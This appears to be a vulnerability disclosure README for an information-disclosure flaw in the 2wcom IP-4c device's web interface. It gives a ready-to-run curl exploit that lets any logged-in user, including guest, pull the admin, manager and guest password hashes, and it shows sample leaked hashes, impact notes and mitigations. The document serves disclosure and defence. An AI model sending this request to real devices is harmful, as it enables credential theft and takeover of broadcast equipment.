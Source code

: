 # 2wcom IP-4c Vulnerability Disclosure: Information Disclosure

## 📝 Description

The 2wcom IP-4c device’s web interface includes an **information disclosure vulnerability**.  
By sending a crafted POST request to a specific endpoint (`/cwi/ajax_request/get_data.php`),  
an **authenticated attacker** (even with a low-privileged account like `guest`) can retrieve the  
**hashed passwords for the admin, manager, and guest accounts**.

This significantly weakens the system’s security posture, as these hashes could be cracked offline,  
granting attackers administrative access to the device.

---

## Vendor Information

- **Vendor**: 2wcom  
- **Vendor Homepage**: https://www.2wcom.com/

## 🎯 Affected Product

**Device:** 2wcom IP-4c  
**Firmware/Software Bundle:** 2.15.5  
**File/Recovery System:** 2.78 / 2.02  
**App Version:** 2.15.16  
**Webinterface:** 3.54  
**FPGA:** 1.12b64 / 0  
**System Controller:** 1.07  
**SNMP MIB:** 4.4  
**Kernel:** 2wcom-01.25-rt60  
**Codecs:** MP2, MP3, AAC, xHE-AAC, Opus, E-aptX  
**HW Revision XPS/IF:** 1.02 / 1.10  

---

## ⚠️ Vulnerability Overview

**Type:** Information Disclosure  
**Impact:** Leaks admin and manager **hashed passwords** to any authenticated user (including guest).

---

## 🔓 Vulnerable Endpoint

```
/cwi/ajax_request/get_data.php
```

---

## 🛠️ Exploitation Steps

1. Authenticate as any user (including guest).
2. Send a **POST** request to `/cwi/ajax_request/get_data.php` with the following parameters:

```http
request_1=csl-device-sysSettings-adminUser
request_2=csl-device-sysSettings-adminPw
request_3=csl-device-sysSettings-managerUser
request_4=csl-device-sysSettings-managerPw
request_5=csl-device-sysSettings-guestUser
request_6=csl-device-sysSettings-guestPw
```
## 💡 Example Exploit Command
```bash
curl 'http://<TARGET_IP>/cwi/ajax_request/get_data.php' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  -H 'Cache-Control: no-cache' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
  -H 'Cookie: PHPSESSID=<VALID_SESSION>; IP-4c_ovD=1; IP-4c_sIP=2; IP-4c_userTab=1' \
  -H 'Origin: http://<TARGET_IP>' \
  -H 'Pragma: no-cache' \
  -H 'Referer: http://<TARGET_IP>/' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36' \
  -H 'X-Requested-With: XMLHttpRequest' \
  --data-raw 'request_1=csl-device-sysSettings-adminUser&request_2=csl-device-sysSettings-adminPw&request_3=csl-device-sysSettings-managerUser&request_4=csl-device-sysSettings-managerPw&request_5=csl-device-sysSettings-guestUser&request_6=csl-device-sysSettings-guestPw'
```
## 📥 Example Response
```json
{
  "get:csl.device.sysSettings:adminUser": "admin",
  "get:csl.device.sysSettings:managerUser": "manager",
  "get:csl.device.sysSettings:guestPw": "$2a$10$FvVelC3AeH5E.gayp3woieIIHYzn42hi4TY7IEkje3x8Z3nhTuA0S",
  "get:csl.device.sysSettings:guestUser": "user",
  "get:csl.device.sysSettings:adminPw": "$2a$10$nnqA0u5chKUFS50zeByoD.D66mt4q6DNgJDUc7hwHlY7r3AQjVBEq",
  "get:csl.device.sysSettings:managerPw": "$2a$10$#3mMw5OlNhZ.uPc2XU#3ijQ.2ba2xd2f9TsoIYo1iK5BypO3Q8aRotC"
}
```
---

## Proof of Concept (PoC) for(RCE,Information Disclosure,Broken Access Control)
https://github.com/user-attachments/assets/42bc93b9-cc75-47bf-bae4-e33f6f87a3ce

---

## Impact

    * Hashed admin and manager passwords are exposed.

    * Attackers can crack the hashes offline to gain full administrative control.

---

##  Suggested Fixes

    * Update firmware to the latest version (if available).

    * Restrict access to the web interface to trusted IPs.

    * Use strong, unique passwords for admin and manager accounts.

    * Regularly monitor system access logs for suspicious requests.

---

## Workarounds

  * Restrict access to /cwi/ajax_request/* endpoints using firewall rules or VPN

  * Monitor system logs for suspicious ping tool usage
